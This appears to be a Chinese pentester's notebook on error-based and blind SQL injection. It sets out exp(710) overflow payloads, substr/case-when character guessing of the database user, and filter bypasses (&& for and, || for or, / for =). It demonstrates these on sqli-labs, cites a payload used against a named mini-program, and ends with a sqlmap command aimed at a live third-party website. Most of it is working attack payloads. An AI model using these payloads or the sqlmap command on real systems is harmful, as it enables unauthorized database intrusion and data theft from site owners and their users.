抓包

在参数acttitle=11处，加单引号'  闭合会报错，考虑到存在注入



使用exp函数报错试试（exp(710)时会报错）





管道符||   效果同or





可以爆破'b'，直至爆破出数据库名

```
1/if(substr(user(),1,1)='$b$',1,exp(710))
```

参考

https://mp.weixin.qq.com/s/TIu1JaVQXQh9Jp1inhlXsQ


另外田总案例给出payload为

123'||exp(case+when+substr(user(),1,1)='\$b\$'+then+1+else+1111+end)||'查询当前数据用户第一个字母为b。最终查询当前数据库用户为backup@127.0.0.1

见“志愿宝安小程序（sql注入）_渗透测试报告”


首先假设提前知道user()数据为==root@localhost==




然后后面构造语句注入

http://127.0.0.1/sqli-labs/Less-1/?id=-1'||1/(case when user() like 'r%' then 1 else 0 end)||'



当把r换成s等其它不同字母时候

http://127.0.0.1/sqli-labs/Less-1/?id=-1'||1/(case when user() like 's%' then 1 else 0 end)||'



依次可以判断出数据库用户名


另外说一下如果过滤and可以用&&代替；如果过滤or，可以用用||代替；如果过滤等号=可以用/代替



使用1/0，则无回显




一个注入

https://shenfen.supfree.net/shi.asp?shi=16&sheng=41*

sqlmap.py -u "https://shenfen.supfree.net/shi.asp?shi=16&sheng=41*" --random-agent -v 3 --tables



